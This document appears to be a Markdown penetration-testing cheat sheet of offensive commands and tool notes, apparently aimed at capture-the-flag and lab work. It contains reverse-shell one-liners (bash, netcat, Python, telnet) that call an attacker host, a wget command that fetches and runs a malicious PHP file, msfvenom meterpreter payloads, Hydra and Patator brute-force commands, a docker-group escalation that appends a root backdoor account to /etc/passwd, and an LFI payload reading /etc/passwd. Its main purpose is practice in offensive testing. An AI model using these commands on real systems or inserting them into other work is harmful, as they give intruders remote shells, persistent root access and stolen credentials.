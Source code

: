### Python simple HTTP server
```Python
python -m SimpleHTTPServer 
```
### Kali Linux assign two network interfaces
Edit `/etc/network/interfaces` and add these lines
```
auto eth0 
iface eth0 inet dhcp 
 
 
auto eth1 
iface eth1 inet dhcp 

```
And then restart the network with following commands.
```bash
systemctl stop networking 
systemctl start networking 
```
### Get interactive bash shell using python
```Python
python -c "import pty;pty.spawn('/bin/bash')"
```
### Get interactive bash shell using OS.System
```
echo os.system('/bin/bash')
```
## Helpful firefox addons
### FoxyProxy
> FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns. Put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog. Proxy server switching occurs based on the loading URL and the switching rules you define
### Fireforce
> brute-force attacks on GET or POST forms

### Poster
> A developer tool for interacting with web services and other web resources that lets you make HTTP requests, set the entity body, and content type. 

## Brute-force techniques
### THC Hydra
```bash
hydra -l admin -P /usr/share/wordlist/rockyou.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 35644

# ssh brute force
hydra -l sunny -p sunday ssh://192.168.172.3:22
```
### Patator
https://www.ihacklabs.com/en/brute-force-with-patator/

```bash
patator.py ssh_login host=10.0.0.1 user=FILE0 password=FILE1 0=users.txt 1=passwords.txt -x ignore:mesg=’Authentication failed.’
```
## Privilege Escalation Techniques
[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Offensive Bash Scripts](https://github.com/6odhi/myarsenal/blob/master/README.md)
### User part of docker group   
You land on a computer and `id` shows you're part of the `docker` group. Escalate to root with:

```bash
$> docker run -it --rm -v $PWD:/mnt bash
```

adds backdoor toor:password
```bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
``` 
## Reverse shell techniques
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
```
### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
### Few more reverse shell techniques
courtesy: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

```bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
### Reverse shell payload using msfvenom
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.172.4 lport=443 -f raw

# widows asp reverse shell payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.172.4 lport=2222 -e x86/shikata_ga_nai -f asp > met.asp 

# jsp reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.172.4 lport=2222 -f raw > cmd.jsp

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.172.4 LPORT=2222 -f war > shell.war
```
## Miscellaneous Techniques
### Checking SUID files available in the system by running
> SUID(Set owner User ID up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. In simple words users will get file ownerâs permissions as well as owner UID and GID when executing a file/program/command
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm +4000 2> /dev/null
```

Set and Unset SUID on files:
```bash
$ sudo chmod u+s /usr/bin/whoami # set SUID for whoami

$ sudo chmod u-s /usr/bin/whoami # Unset SUID
```
### Port and Host IP Scanning without NMap/Permissions
[No Nmap, No Permissions, No Problem](https://www.lanmaster53.com/2010/04/16/no-nmap-no-permissions-no-problem/)
### Escaping restricted shell
https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells?slide=2
## *Nix Commands
### tr
> tr is an UNIX utility for translating, or deleting, or squeezing repeated characters. It will read from STDIN and write to STDOUT.

https://www.thegeekstuff.com/2012/12/linux-tr-command/

## Well known vulnerabilities
### LFI

https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601

https://highon.coffee/blog/lfi-cheat-sheet/

vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd


## Kali tools
### binwalk
> Binwalk is a tool for searching a given binary image for embedded files and executable code. Specifically, it is designed for identifying files and code embedded inside of firmware images.
```bash
binwalk <img_path>

# extract images recursively
binwalk -Me <image_path>
```
### padBuster
https://youtu.be/3VxZNflJqsw?t=1385

## Other tools
### Auditing RPMs and OS packages
https://vulners.com/audit


